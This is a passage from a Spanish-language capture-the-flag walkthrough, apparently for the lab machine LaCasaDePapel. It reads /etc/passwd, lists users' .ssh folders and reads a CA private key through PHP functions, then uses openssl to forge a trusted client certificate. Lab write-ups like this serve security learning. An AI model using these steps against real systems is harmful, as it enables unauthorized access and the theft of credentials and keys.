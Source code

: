 ```bash
file_get_contents("/etc/passwd")
```

Y podemos ver el `/etc/passwd`, miramos si podemos ver la key del usuario nairobi.

miramos si encontramos id_rsa

```bash
scandir("/")
scandir("/home")
scandir("/home/berlin/.ssh")
scandir("/home/nairobi/.ssh")
scandir("/home/oslo/.ssh")
scandir("/home/dali/.ssh")
scandir("/home/professor/.ssh")
```

No encontramos nada. Miramos el contenido del fichero key.

```bash
readfile("/home/nairobi/ca.key")
```

Ahora que tenemos la key podemos crear un certificado de cliente valido.

### Creamos un certificado de cliente valido {-}

1. Tenemos que recuperar el certificado del servidor

   ```bash
    openssl s_client -connect 10.10.10.131:443
    openssl s_client -connect 10.10.10.131:443 | openssl x509
    openssl s_client -connect 10.10.10.131:443 | openssl x509 > ca.cer
    ```

1. Copiamos el contenido del ca.key en un fichero ca.key

    - Aqui tenemos 2 ficheros el ca.key y el ca.cer

1. Con openssl creamos un private key

    ```bash
    openssl genrsa -out client.key 4096
    ```

1. Creamos un .req

    ```bash
    openssl req -new -key client.key -out client.req
    ```

    en commonName ponemos lacasadepapel.htb en el resto le damos al enter.

1. Firmamos el certificado

    ```bash
    openssl x509 -req -in client.req -set_serial 123 -CA ca.cer -CAkey ca.key -days 365 -extensions client -outform PEM -out client.cer
    ```

    Aqui ya tenemos un certificado cliente valido. Pero ahora tenemos que convertirlo en un `.p12` para que los navegadores los accepten.

1. Conversion en certificado pkcs12 para navegadores

    ```bash
    openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
   ```